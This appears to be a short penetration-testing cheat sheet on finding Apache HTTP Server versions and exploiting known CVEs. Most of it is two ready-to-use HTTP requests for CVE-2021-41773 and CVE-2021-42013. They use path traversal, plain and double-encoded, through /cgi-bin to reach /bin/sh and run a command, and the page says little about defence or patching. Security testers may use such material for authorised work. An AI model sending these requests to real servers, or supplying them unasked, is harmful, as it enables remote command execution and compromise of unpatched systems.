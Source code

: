 # Apache (HTTP Server) Common Bugs

## Introduction
What would you do if you came across a website that uses Apache (HTTP Server)?

## How to Detect
Usually in the HTTP response there is a header like this `Server: Apache` or `Server: Apache/2.4.50` and check the 404 page

1. Find the related CVE by checking Apache (HTTP Server) version
* How to find the Apache (HTTP Server) version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated Apache (HTTP Server) version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/Apache-Http-Server.html)

Some example CVE:

- CVE-2021-41773 (RCE and LFI)
```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded
Connection: close

echo;id
```
- CVE-2021-42013 (RCE and LFI)
```
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

echo;id
```